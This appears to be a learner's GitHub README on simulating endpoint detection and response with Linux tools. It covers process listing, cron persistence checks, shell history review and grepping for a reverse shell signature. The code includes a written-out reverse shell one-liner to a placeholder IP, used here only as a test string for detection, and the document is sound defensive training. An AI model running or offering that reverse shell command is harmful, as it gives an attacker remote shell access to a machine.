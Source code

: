 # 01 — EDR Basics with CrowdStrike-like Logic

---

## Scenario

This module explored how Endpoint Detection and Response (EDR) systems work — focusing on how they detect suspicious activity at the process and user level. While I didn’t use a commercial EDR like CrowdStrike, I simulated its core behaviors using Linux command-line tools to inspect running processes, cron jobs, shell history, and reverse shell signatures.

---

## What I Did

```bash
# Viewed top resource-consuming processes
ps aux --sort=-%cpu | head

# Checked for persistence mechanisms
crontab -l
ls -l /etc/cron.* /etc/init.d/ ~/.config/autostart

# Reviewed recent shell commands
cat ~/.bash_history | tail -n 20

# Simulated detection of a reverse shell pattern
echo "bash -i >& /dev/tcp/1.2.3.4/4444 0>&1" >> ~/simulated_alert.sh
grep 'bash -i' ~/simulated_alert.sh
```

---

## What I Learned

- EDR systems monitor processes and file system activity to detect indicators of compromise.
- Many malicious actions leave traces — like suspicious bash history, abnormal cron jobs, or rogue reverse shell commands.
- Even without a GUI-based platform, the logic behind EDR detection can be simulated with basic tools like `ps`, `grep`, and `awk`.
- Being able to detect abnormal patterns manually helps build intuition for what automated tools are doing under the hood.

---

## Why It Matters

As a SOC analyst, I may not always have direct access to EDR dashboards — but understanding how they work and how to recognize suspicious patterns at the endpoint level is essential. These skills are also useful for triage and confirming the validity of alerts. This module helps bridge the gap between raw system data and EDR-based detection.

---

